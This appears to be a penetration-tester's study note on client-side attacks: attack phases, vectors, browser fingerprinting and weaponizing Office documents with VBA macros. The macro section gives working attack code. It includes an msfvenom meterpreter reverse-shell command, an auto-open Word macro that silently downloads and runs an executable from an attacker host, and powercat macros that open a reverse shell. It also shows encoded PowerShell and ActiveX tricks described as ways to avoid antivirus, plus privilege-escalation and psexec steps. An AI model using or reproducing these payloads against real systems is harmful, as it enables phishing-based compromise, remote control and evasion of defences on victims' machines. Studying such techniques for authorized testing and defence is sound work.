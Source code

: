 # Client side attack

Refer to technique used to exploit vuln or misconfig in client-side software or the system accessed by user/employees of a target organization (Not targeting the server, target employees)

In client-side attacks, attacker deliver the malicous code via standard delivery mechanisms like email, USBs, compromised website, etc.

![Compare](./Assets/image_0.png)

Pharse:
- Reconnasissance
- Target identification
- Payload, resource development
- Payload Preparation
- Payload delivery
- Payload excution
- Post exploit

**Client-side attack vector**: Refer to method/path used by attacker to exploit.
- Social engineering
    - Tools: SET, Phishme, BeEF
- Drive by download
- Water hole attacks
- Malicious documents/Payload
- USB-base attacks
- Exploit kits
- Brower exploitation

---

**Information gathering**:
- Passive: 
- Active: 

**Client fingerprinting**: An atice client information gathering technique used to gather infor about target system web brower and underlying OS in order to aid in ther developemtn of tailor made (client specific) payload for initial access

**Browser Fingerpriting**: Leverages client-side scripting language like JS to extract info about target browser and underlying OS
- Set up fake webpage to runs a specific JS script when users visit the webpage
    - Some browers can block JS execution
- Infor should collect
    - Web browser and their version
    - Plugin/Extensions
    - Underlying OS infor
- Tools:
    - [FingerprintJS2](https://github.com/LukasDrgon/fingerprintjs2)
        - Setup website with apache and try to run it

## Resource developemt and weaponizations

- Resource focuses on acquiring or building the necessary resources for an attack
    - [Att&ck resource Development](https://attack.mitre.org/tactics/TA0042/)
- Weaponization involves turning those resource into effective cyber weapons

Term used by:
- MITRE ATT&CK framework
- [Cyber kill chain (Lockheed Martin)](https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html)

[Pharse exploit](./Assets/image_1.png)

# VBA Marco

VBA is programming language developed by microsoft for automate task and extending the functionality of Office suite (Excel, Word, Powerpoint, Outlook)
- Word and Excel allow users to embed VBA marcos in docs/spreadsheet.

![Type of doc](./Assets/image_2.png)

Word and Excel have data structure verification to determine the file can open or not (Changing extension will not help avoit detection)

WScript is a Windows Script Host object model that provides a scripting enviroment for executing scripting on Windows OS.
- It like lib for VBA

**Generate VBA payload with msfvenom**
- `msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.2.134 LPORT=444 -f vba-exe`
    - `-a` Architecture
    - `-p` payload
    - `f` format
    - It will come two part
        - VBA script that we use as marco
        - The payload, we need to put the payload in the content of document.
    - Set up handler and run the doc file.
- We can use format `-f vba-psh` VBA Powershell
    - After gain meterpreter, we can `search bypassuac` and use `bypassuac_dotnet_profiler` to escalate privilege
        - load incognito and impersonate tokens
    - Use `smb/psexec` set SMBUser and SMBPass with NTLM hash

**Example code for powershell dropper** (Download payload in victim)

First, genrate exe payload and host it with python

```vb
Sub AutoOpen()
    dropper
End Sub

Sub Document_Open()
    dropper
End Sub

Sub dropper()
    Dim url As String
    Dim psScript As String

    url = "http://<host_ip>:8080/shell.exe"

    psScript = "Invoke-WebRequest -Uri """ & url & """ -OutFile ""C:\Tmp\file.exe"";" & vbCrLf & "Start-Process -FilePath ""C:\Tmp\file.exe"""

    Shell "powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command """ & psScript & """, vbHide

End Sub
```

### Reverse shell with Powercat

[Github Repo](https://github.com/besimorhino/powercat)

- Host the `powercat.ps1` file with `python3 -m http.server 8000`
- Create marco in Word

```vb
Sub powercat()
    Dim url As String
    Dim psScript As String

    url = "http://<host_ip>:8080/powercat.ps1"

    psScript = "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')"

    'Or
    'Change host ip and port to the handler address
    psScript = "IEX (New-Object System.Net.Webclient).DownloadString('" & url & "'); powercat -c <host_ip> -p <host_port> -e cmd"

    Shell "powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command """ & psScript & """, vbHide

End Sub
```

- Set up listener `nc -nvlp 1234`

**To avoid AV, we can encode the powershell scipt**

- Create a pwsh sript for powercat

```pwsh
LHOST=10.10.10.10
LPORT=1234
pwsh -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > /tmp/reverse-shell.txt
```

- Host the file
- Create marco

```vb
'Set up autoopen

'exploit
Sub powercat()
    Dim Str As String
    Str = "powershell -c ""$code=(New-Object System.Net.Webclient).DownloadString('http://<host>/reverse-shell.txt'); iex 'powershell -WindowSyle Hidden -E $code'"""

    CreateObject("WScript.Shell").Run Str

End Sub
```

### Using ActiveX Controls for Marco Execution

ActiveX is set of technology developed by Microsoft for creating interactive content within web page and desktop app
- Doesn't need to use `Auto_Open` or `Document_Open` to execute marco
- Avoid AV

ActiveX controls and subroutine names to use for automatic marco execution

![ActiveX](./Assets/image_4.png)

We usually use `Microsoft InkEdit Control`